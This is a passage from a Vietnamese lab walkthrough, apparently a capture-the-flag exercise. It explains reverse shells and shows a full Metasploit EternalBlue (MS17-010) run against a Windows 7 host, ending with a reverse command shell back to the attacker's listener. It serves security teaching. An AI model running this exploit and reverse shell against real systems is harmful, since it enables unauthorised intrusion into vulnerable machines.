   * Máy nạn nhân **chủ động kết nối ngược** về máy tấn công.
  * Máy attacker (bạn) cần lắng nghe tại **LHOST\:LPORT**.
  * Sau khi kết nối thành công, bạn sẽ có một cửa sổ lệnh (shell) để gõ lệnh trực tiếp trên máy nạn nhân.

---

Để chạy chúng ta gõ lệnh `run`


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.175.78:4444 
[*] 10.10.61.2:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.61.2:445        - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.61.2:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.61.2:445 - The target is vulnerable.
[*] 10.10.61.2:445 - Connecting to target for exploitation.
[+] 10.10.61.2:445 - Connection established for exploitation.
[+] 10.10.61.2:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.61.2:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.61.2:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.61.2:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.61.2:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.61.2:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.61.2:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.61.2:445 - Sending all but last fragment of exploit packet
[*] 10.10.61.2:445 - Starting non-paged pool grooming
[+] 10.10.61.2:445 - Sending SMBv2 buffers
[+] 10.10.61.2:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.61.2:445 - Sending final SMBv2 buffers.
[*] 10.10.61.2:445 - Sending last fragment of exploit packet!
[*] 10.10.61.2:445 - Receiving response from exploit packet
[+] 10.10.61.2:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.61.2:445 - Sending egg to corrupted connection.
[*] 10.10.61.2:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.61.2
[*] Command shell session 1 opened (10.10.175.78:4444 -> 10.10.61.2:49196) at 2025-08-19 10:11:10 +0100
[+] 10.10.61.2:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.61.2:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.61.2:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
```

# Task 3: Escalate
